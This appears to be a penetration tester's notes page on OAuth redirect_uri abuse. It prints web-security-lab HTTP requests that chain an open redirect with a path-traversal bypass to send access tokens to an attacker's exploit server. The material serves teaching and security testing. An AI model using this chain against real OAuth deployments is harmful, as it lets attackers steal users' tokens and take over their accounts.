 Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`. The key now is to use this knowledge to try and access a wider attack surface within the client application itself. Try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.

Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token:
- [Authorization code grant type](../Dev,%20scripting%20&%20OS/OAuth%202.0.md#Authorization%20code%20grant%20type): find a vulnerability that gives you access to the query parameters
- [Implicit grant type](../Dev,%20scripting%20&%20OS/OAuth%202.0.md#Implicit%20grant%20type): extract the URL fragment

One of the most useful vulnerabilities for this purpose is an [Open Redirection](Open%20Redirection.md). You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like. Other good candidates are [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md), HTML injection and Dangerous JavaScript that handles query parameters and URL fragments.

>[!example] Example 1 using open redirection

Detected a page vulnerable to open redirection:
```http
GET /post/next?path=https://foo.bar HTTP/2
Host: 0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net
Referer: https://0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net/post?postId=6


HTTP/2 302 Found
Location: https://foo.bar
```

Detected a misconfiguration in the `redirect_uri` check:
```http
GET /auth?client_id=tt3v2o2jnsioh04ajnvl8&redirect_uri=https://0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net/post/next?path=https://exploit-0a0c002903af6c5e814fd992016e00b9.exploit-server.net/exploit&response_type=token&nonce=744981384&scope=openid%20profile%20email HTTP/2
Host: oauth-0a90009f03986ca381a6d814024b0065.oauth-server.net


HTTP/2 400 Bad Request
<h1>oops! something went wrong</h1>
<pre><strong>error</strong>: redirect_uri_mismatch</pre><pre><strong>error_description</strong>: redirect_uri did not match any of the client&#39;s registered redirect_uris</pre>

---

GET /auth?client_id=tt3v2o2jnsioh04ajnvl8&redirect_uri=https://0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0c002903af6c5e814fd992016e00b9.exploit-server.net/exploit&response_type=token&nonce=744981384&scope=openid%20profile%20email HTTP/2
Host: oauth-0a90009f03986ca381a6d814024b0065.oauth-server.net


HTTP/2 302 Found
Redirecting to <a href="/interaction/J3Ht8WP1UtEZ9zwv9f7td">/interaction/J3Ht8WP1UtEZ9zwv9f7td</a>
```


[^video]: [REDACTED: $20,000 OAuth Bounty (FT. Nagli)](https://www.youtube.com/watch?v=VLgB2fDEMVg&ab_channel=NahamSec), youtube.com